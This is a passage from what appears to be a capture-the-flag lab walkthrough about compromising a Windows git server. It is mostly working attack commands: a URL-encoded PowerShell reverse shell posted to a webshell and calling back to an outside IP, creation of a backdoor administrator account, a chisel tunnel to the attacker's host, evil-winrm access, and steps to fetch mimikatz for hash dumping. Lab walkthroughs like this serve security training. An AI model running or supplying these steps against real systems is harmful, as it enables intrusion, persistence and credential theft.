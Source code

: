 After this, on your attacking machine, send a reverse-shell-oneliner to vulnerable
git service:

```bash
$ curl -X POST http://localhost:10001/web/exploit-unknown.php -d "a=powershell.exe%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.200.90.200%27%2C15182%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22"
```

Checkout the terminal with a listener on port 443 - you should have a reverse shell
there now!

---

### ***Git Server** Stabilisation & Post Exploitation*

Create a new user:

```ps
> net user unknown unknown /add
```

Add the user to local administrators & "Remote Management Users" groups:

```ps
> net localgroup Administrators unknown /add

> net localgroup "Remote Management Users" unknown /add
```

Setup 2nd tunnel to connect to win-rm. On the compromised machine:

```bash
$ ./chisel-unknown client $ATTACKER_IP:8000 R:5985:10.200.90.150:5985 &
```

Use evil-winrm:

```bash
$ evil-winrm -u unknown -p unknown -i localhost
```

You'll need mimkatz to dump the hashes. You can download a [compiled mimikatz here](https://github.com/gentilkiwi/mimikatz/releases)
Your browser will warn you that the website contains harmful software. Skip the warning
and proceed with downloading. Move the archive to new directory, called mimikatz.
In that directory:

```bash
$ unzip mimikatz_trunk.zip

$ cd x64

$ sudo python3 -m http.server 80
```
